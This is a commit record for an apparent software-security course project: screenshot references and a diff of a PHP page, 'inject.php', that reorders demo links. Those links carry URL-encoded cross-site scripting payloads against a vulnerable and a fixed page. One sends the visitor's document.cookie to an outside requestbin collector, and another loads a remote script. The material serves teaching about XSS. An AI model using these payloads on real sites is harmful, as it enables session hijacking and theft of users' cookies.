

Before and after one commit to Gerjo/Software-security, a PHP site: page / in a window 1280 px wide. Shown: the top 329 px of the page, without its empty margins (0-640 px from the left). Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
changed the order of links

```diff
--- a/assignment2/www/inject.php
+++ b/assignment2/www/inject.php
@@ -1,14 +1,14 @@
 <h1> Vulnerable <a target="_blank" href="broken.php">link</a></h1>
 <a target="_blank" href="/broken.php/%22%3E%3C/form%3E%3Cscript%3EsetCookie%28%27username%27%2C%20unescape%28%27gerjo%253Cscript%2520src%253D%2522http%253A/%252Fwww%252Ecornify%252Ecom/js/cornify%252Ejs%2522%253E%253C/script%253E%253Cscript%253Ecornify_add%2528%2529%253B%2520cornify_add%2528%2529%253B%2520cornify_add%2528%2529%253B%2520cornify_add%2528%2529%253B%2520cornify_add%2528%2529%253B%2520cornify_add%2528%2529%253B%2520cornify_add%2528%2529%253B%253C/script%253E%27%29%29%3C/script%3E%3Cform%20action%3D%22">
-    Ponies!
+    Cute Ponies!
+</a><br>
+
+<a target="_blank" href="http://requestb.in/1jjb0wx1?inspect">
+    See stolen cookies.
 </a><br>
 
 <a target="_blank" href="/broken.php/%22%3E%3C/form%3E%3Cscript%3E%20var%20image%20%3D%20new%20Image%28%29%3Bimage%5B%27src%27%5D%3Dunescape%28%27http%253A%252F%252Frequestb%252Ein/1jjb0wx1%3F%3Dbar%27%29%20%2B%20document%5B%27cookie%27%5D%3B%20%3C/script%3E%3Cform%20action%3D%22">
     Steal my cookie!
-</a><br>
-
-<a target="_blank" href="http://requestb.in/1jjb0wx1?inspect">
-    See stolen cookies.
 </a><br>
 
 <a target="_blank" href="/broken.php?logout=true">
@@ -17,17 +17,17 @@
 
 <h1>Probably not vulnerable <a target="_blank" href="fixed.php">link</a></h1>
 <a target="_blank" href="/fixed.php/%22%3E%3C/form%3E%3Cscript%3EsetCookie%28%27username%27%2C%20unescape%28%27gerjo%253Cscript%2520src%253D%2522http%253A/%252Fwww%252Ecornify%252Ecom/js/cornify%252Ejs%2522%253E%253C/script%253E%253Cscript%253Ecornify_add%2528%2529%253B%2520cornify_add%2528%2529%253B%2520cornify_add%2528%2529%253B%2520cornify_add%2528%2529%253B%2520cornify_add%2528%2529%253B%2520cornify_add%2528%2529%253B%2520cornify_add%2528%2529%253B%253C/script%253E%27%29%29%3C/script%3E%3Cform%20action%3D%22">
-    Ponies!
+    Cute Ponies!
+</a><br>
+
+<a target="_blank" href="http://requestb.in/1jjb0wx1?inspect">
+    See stolen cookies.
 </a><br>
 
 <a target="_blank" href="/fixed.php/%22%3E%3C/form%3E%3Cscript%3E%20var%20image%20%3D%20new%20Image%28%29%3Bimage%5B%27src%27%5D%3Dunescape%28%27http%253A%252F%252Frequestb%252Ein/1jjb0wx1%3F%3Dbar%27%29%20%2B%20document%5B%27cookie%27%5D%3B%20%3C/script%3E%3Cform%20action%3D%22">
     Steal my cookie!
 </a><br>
 
-<a target="_blank" href="http://requestb.in/1jjb0wx1?inspect">
-    See stolen cookies.
-</a><br>
-
 <a target="_blank" href="/fixed.php?logout=true">
     Force logout
 </a><br>
```
